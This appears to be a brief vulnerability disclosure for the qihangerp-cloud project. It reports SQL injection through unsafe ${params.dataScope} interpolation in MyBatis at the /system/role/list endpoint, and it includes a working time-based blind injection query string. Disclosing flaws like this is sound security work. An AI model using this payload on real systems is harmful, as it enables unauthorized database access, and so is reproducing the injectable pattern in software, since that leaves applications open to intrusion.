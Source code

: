 ## [qihangerp-cloud](https://github.com/zeasin/qihangerp-cloud)  has a backend SQL injection vulnerability

There is SQL injection when ${params.dataScope} is used in multiple places in the mybatis configuration file:

![image-20250826224722156](./images/image-20250826224722156.png)

Classes & Methods：SysRoleController#list

Path：/system/role/list

Directly query the incoming parameters：

![image-20250826225140089](./images/image-20250826225140089.png)

Time Blind Injection Test：

```
?pageNum=1&pageSize=10&status=0&params[dataScope]=AND+(select+sleep(5))--+
```

![image-20250826224734750](./images/image-20250826224734750.png)

Test successful ! 

